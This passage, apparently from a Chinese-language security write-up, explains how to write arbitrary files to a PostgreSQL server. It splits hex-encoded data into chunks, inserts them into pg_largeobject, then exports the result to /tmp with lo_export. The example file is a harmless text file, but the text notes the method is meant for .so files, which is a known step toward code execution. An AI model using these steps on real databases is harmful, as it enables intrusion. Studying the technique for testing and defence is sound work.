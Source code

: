 [![32.png](assets/1710208076-b1ae676e849bc88ae2a8f8de9f38cd47.png)](https://storage.tttang.com/media/attachment/2022/04/13/df3349c8-894a-4fba-bf73-8239ba2a3be9.png)

[![33.png](assets/1710208076-857a51557ca79949cc0e3086a66bcb49.png)](https://storage.tttang.com/media/attachment/2022/04/13/f045198b-d48a-4f72-bc40-503c516806ff.png)

如果内容过多，那么首先创建一个 OID 作为写入的对象，然后通过 0,1,2,3… 分片上传但是对象都为 12345 最后导出到 /tmp 目录下，收尾删除 OID

写的文件每一页不能超过 2KB，所以我们要把数据分段，这里我就不拿 .so 文件为例了，就随便写个 txt 举个例子

```bash
SELECT lo_create(12345);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('6666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 1, decode('666666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 2, decode('6666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 3, decode('663078', 'hex'));
SELECT lo_export(12345, '/tmp/ffffffff0x.txt');
SELECT lo_unlink(12345);
```

[![11.png](assets/1710208076-08aade033ef9b93db77c346d07d9e584.png)](https://storage.tttang.com/media/attachment/2022/04/13/25826641-84cc-4537-a06a-944dea8f950c.png)
